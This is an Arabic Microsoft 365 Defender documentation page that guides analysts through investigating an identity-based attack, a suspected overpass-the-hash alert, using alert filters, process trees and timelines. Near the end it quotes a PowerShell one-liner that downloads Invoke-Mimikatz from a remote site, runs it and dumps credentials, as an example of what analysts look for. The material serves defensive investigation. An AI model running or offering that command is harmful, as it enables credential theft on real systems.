 ```yaml
---
title: مثال عن هجوم مستند إلى الهوية
description: خطوة عبر مثال لتحليل هجوم مستند إلى الهوية.
keywords: الأحداث، التنبيهات، التحقق، الارتباط، الهجوم، الأجهزة، الأجهزة، المستخدمون، الهويات، الهوية، علبة البريد، البريد الإلكتروني، 365، microsoft، m365، الاستجابة للحوادث، هجوم عبر الإنترنت
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 883c0480b5f8cb35abfe59458d35c8d1274b8493
ms.sourcegitcommit: bdd6ffc6ebe4e6cb212ab22793d9513dae6d798c
ms.translationtype: MT
ms.contentlocale: ar-SA
ms.lasthandoff: 03/08/2022
ms.locfileid: "63573915"
---
```

# <a name="example-of-an-identity-based-attack"></a>مثال عن هجوم مستند إلى الهوية

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**ينطبق على:**
- Microsoft 365 Defender

يمكن أن يساعد Microsoft Defender for Identity في الكشف عن المحاولات الضارة التي تؤذي الهويات في مؤسستك. نظرا لأن Defender for Identity يتكامل مع Microsoft 365 Defender، يمكن لمحللين الأمان رؤية التهديدات القادمة من Defender for Identity، مثل محاولات رفع امتياز Netlogon المشتبه بها.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>تحليل الهجوم في Microsoft Defender for Identity

Microsoft 365 Defender للمحللين بتصفية التنبيهات حسب مصدر الكشف على علامة **التبويب** تنبيهات في صفحة الأحداث. في المثال التالي، تمت تصفية مصدر الكشف إلى **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="مثال لتصفية مصدر الكشف ل Defender for Identity.":::

عند **تحديد تنبيه هجوم** تجاوز الهاشش المشتبه به، يتم الوصول إلى صفحة في Microsoft Defender for Cloud Apps تعرض معلومات أكثر تفصيلا. يمكنك دائما معرفة المزيد حول تنبيه أو هجوم عن طريق تحديد معرفة المزيد حول  نوع التنبيه هذا لقراءة وصف للهجوم بالإضافة إلى اقتراحات [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) المعالجة.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="مثال على تنبيه هجوم تجاوز الهاشش المشتبه به."::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>التحقق من الهجوم نفسه في Microsoft Defender لنقطة النهاية

بدلا من ذلك، يمكن للمحلل استخدام Defender for Endpoint لمعرفة المزيد حول النشاط على نقطة نهاية. حدد الحادث من قائمة انتظار الحادث، ثم حدد **علامة التبويب** تنبيهات. ومن هنا، يمكنهم تحديد مصدر الكشف أيضا. إن مصدر الكشف المسمى الكشف التلقائي والاستجابة على النقط النهائية هو "كشف نقطة النهاية والاستجابة لها"، وهو Defender لنقطة النهاية. من هنا، حدد المحلل تنبيها تم اكتشافه بواسطة الكشف التلقائي والاستجابة على النقط النهائية.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="مثال للكشف عن نقطة النهاية والاستجابة لها في Defender لنقطة النهاية."::: 

تعرض صفحة التنبيه معلومات مختلفة ذات صلة مثل اسم الجهاز الذي تم التأثير عليه واسم المستخدم حالة التحقيق التلقائي وتفاصيل التنبيه. تصف قصة التنبيه تمثيلا مرئيا شجرة العملية. إن شجرة العمليات هي تمثيل هيكلي للعمليات الأصل والطفل المرتبطة بالتنبيه.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="مثال على شجرة عملية تنبيه في Defender لنقطة النهاية."::: 

يمكن توسيع كل عملية لعرض تفاصيل إضافية. التفاصيل التي يمكن للمحلل رؤياها هي الأوامر الفعلية التي تم إدخالها كجزء من برنامج نصي ضار وعناوين IP للاتصال الصادر ومعلومات مفيدة أخرى.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="مثال حول تفاصيل العملية في Defender for Endpoint.":::
 
من خلال تحديد **رؤية في المخطط الزمني**، يمكن للمحلل التنقل لأسفل لتحديد الوقت المحدد للخطر. 

يمكن ل Microsoft Defender ل Endpoint الكشف عن العديد من الملفات والبرامج النصية الضارة. ومع ذلك، نظرا للعديد من الاستخدامات المشروعة للاتصالات الصادرة و PowerShell ونشاط سطر الأوامر، قد يعتبر بعض النشاط نشاطا غير جيد حتى ينشئ ملفا أو نشاطا ضارا. وبالتالي، فإن استخدام المخطط الزمني يساعد المحللين على وضع التنبيه في سياق مع النشاط المحيط لتحديد المصدر الأصلي للهجوم أو وقته الذي يحجبه نظام الملفات المشترك ونشاط المستخدم. 

للقيام بذلك، سيبدأ المحلل في وقت الكشف عن التنبيهات (باللون الأحمر) ويمرر لأسفل إلى الخلف في الوقت المناسب لتحديد وقت بدء النشاط الأصلي الذي أدى إلى النشاط الضار فعليا. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="مثال للبدء في وقت الكشف عن التنبيهات."::: 

من المهم فهم النشاط الشائع وتمييزه مثل اتصالات Windows Update و Windows حركة تنشيط البرامج الموثوق بها والاتصالات الشائعة الأخرى بمواقع Microsoft ونشاط الإنترنت من جهة خارجية ونشاط Microsoft Endpoint Configuration Manager والنشاط غير ذلك من الأنشطة غير الموثوق بها من الأنشطة المريبة. إحدى الطرق لتنفيذ ذلك هي باستخدام عوامل تصفية المخطط الزمني. هناك العديد من عوامل التصفية التي يمكنها تمييز نشاط معين أثناء تصفية أي شيء لا يريد المحلل عرضه. 

في الصورة أدناه، تمت تصفية المحلل لعرض أحداث الشبكة وا العملية فقط. يسمح هذا للمحلل برؤية اتصالات الشبكة والعمليات المحيطة بالحدث حيث المفكرة اتصالا باستخدام عنوان IP، وقد رأيناه أيضا في شجرة العمليات. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="مثال حول المفكرة المستخدمين في إجراء اتصال ضار من الخارج."::: 

في هذا الحدث تحديدا، المفكرة المستخدمين في إجراء اتصال ضار بالداخل. ومع ذلك، غالبا ما يستخدم المتطفلون iexplorer.exe لإنشاء اتصالات لتنزيل تحميل ضار لأن عمليات iexplorer.exe تعتبر عادة نشاط مستعرض ويب عاديا.

هناك عنصر آخر يجب البحث عنه في المخطط الزمني وهو استخدام PowerShell للاتصالات الصادرة. سيبحث المحلل عن اتصالات PowerShell `IEX (New-Object Net.Webclient)` ناجحة بأوامر مثل متبوع باتصال وارد لموقع ويب يستضيف ملفا ضارا. 

في المثال التالي، تم استخدام PowerShell لتنزيل Mimikatz وتنفيذه من موقع ويب:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
يمكن للمحلل البحث بسرعة عن الكلمات الأساسية عن طريق كتابة الكلمة الأساسية في شريط البحث لعرض الأحداث التي تم إنشاؤها باستخدام PowerShell فقط. 

## <a name="next-step"></a>الخطوة التالية

راجع [مسار التحقيق في التصيد](first-incident-path-phishing.md) الاحتيالي.

## <a name="see-also"></a>راجع أيضًا

- [نظرة عامة حول الأحداث](incidents-overview.md)
- [إدارة الأحداث](manage-incidents.md)
- [التحقيق في الأحداث](investigate-incidents.md)
